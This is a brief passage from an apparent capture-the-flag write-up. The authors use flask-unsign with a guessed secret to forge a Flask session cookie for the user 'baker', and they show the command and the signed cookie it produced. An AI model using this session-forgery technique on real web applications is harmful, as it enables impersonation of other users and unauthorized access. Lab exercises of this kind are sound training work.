 ![Chocolate Chocolate Chip](images/ChocolateChocolateChipFlaskUnsignSign.png)

We din't get the flag but almost a chabge in the website.

So we tried be the `baker`.

```bash
flask-unsign --sign --cookie '{"user":"baker"}' --secret webdesign
```

Cookie value: `eyJ1c2VyIjoiYmFrZXIifQ.ZiXrKw.Jn3PbEhW6KLvG3RRhNQoAPaDrLo`

So we think so finally we got the flag.
